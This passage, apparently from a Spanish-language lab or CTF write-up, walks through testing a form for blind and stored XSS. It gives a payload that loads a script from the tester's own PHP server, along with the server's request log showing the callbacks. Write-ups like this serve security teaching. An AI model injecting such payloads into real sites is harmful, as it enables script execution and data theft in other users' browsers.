 Comprémoslo:

* Levanta un servidor de **PHP**:
```bash
php -S 0.0.0.0:80
[Thu Oct 16 00:18:23 2025] PHP 8.4.11 Development Server (http://0.0.0.0:80) started
```

* Utiliza el siguiente payload:
```bash
"><script src=http://Tu_IP/XSS></script>
```

* Escríbelo en el campo y envíalo:

<p align="center">
<img src="/assets/images/THL-writeup-elCliente/Captura6.png">
</p>

* Observa el servidor de **PHP**:
```bash
php -S 0.0.0.0:80
[Thu Oct 16 00:41:54 2025] PHP 8.4.11 Development Server (http://0.0.0.0:8080) started
[Thu Oct 16 00:43:03 2025] 192.168.100.170:39334 Accepted
[Thu Oct 16 00:43:03 2025] 192.168.100.170:39334 [404]: GET /XSS - No such file or directory
[Thu Oct 16 00:43:03 2025] 192.168.100.170:39334 Closing
[Thu Oct 16 00:43:06 2025] 192.168.100.170:39342 Accepted
[Thu Oct 16 00:43:06 2025] 192.168.100.170:39342 [404]: GET /XSS - No such file or directory
[Thu Oct 16 00:43:06 2025] 192.168.100.170:39342 Closing
[Thu Oct 16 00:44:04 2025] 192.168.100.170:33076 Accepted
[Thu Oct 16 00:44:04 2025] 192.168.100.170:33076 [404]: GET /XSS - No such file or directory
[Thu Oct 16 00:44:04 2025] 192.168.100.170:33076 Closing
[Thu Oct 16 00:44:06 2025] 192.168.100.170:33078 Accepted
[Thu Oct 16 00:44:06 2025] 192.168.100.170:33078 [404]: GET /XSS - No such file or directory
[Thu Oct 16 00:44:06 2025] 192.168.100.170:33078 Closing
...
```
Excelente, acabamos de descubrir que no solo es vulnerable a **Blind XSS**, pues al tener más de una respuesta, significa que el payload quedó almacenado, por lo que es vulnerable a **Stored XSS**.
